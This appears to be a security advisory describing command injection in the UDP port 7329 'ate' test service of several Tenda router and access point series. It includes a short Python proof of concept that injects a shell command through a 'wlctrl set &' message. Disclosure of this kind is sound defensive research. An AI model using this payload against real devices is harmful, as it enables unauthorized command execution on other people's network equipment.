


# summary

There is command injection in the ate module in many series of tenda products

# affected

AC series (AC1206, AC7, AC23 have been submitted separately)

[11AC Routers-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/11ac-routers.html)

G series

[Wired Enterprise Router-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/wired-enterprise-router.html)

W series

[In-wall AP-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/in-wall-ap.html)

I series

[Ceiling AP-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/ceiling-ap.html)

O series

[Outdoor CPE-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/outdoor-cpe.html)

A series

[Range Extenders-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/range-extenders.html)

VD series

[xDSL Modem Routers-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/xdsl-modem.html)

# Vulnerabilities

In the above mentioned devices, an `ate` processing function is defined in httpd(In some devices this function is `formAte` instead of `TendaAte`)



This function may have two situations
1. This function directly implements ate processing

   

2. Implements ate processing by starting /bin/ate or /sbin/td_ate

   

But the core function processing function of both methods is the same 


In this function, port `7329` will be opened using udp

Then receive the message and enter the corresponding function operation according to the string, without any filtering of the input during the process

However, there are several dangerous functions in the processed functions that can lead to command injection

Just send a message like `operation arg....` to reach many dangerous functions

For example

**ate_ifconfig_set**


**ate_iwpriv_set**


**wlctrl**



**set_finishtest_flag**


There are actually some hidden

# POC

Take `Tenda g3 Wired Enterprise Router` as an example

```py
import socket
import time
import os

os.system('curl http://192.168.0.10/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'wlctrl set &' + command

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```

# patch

can add access control in port `7329` or filter user input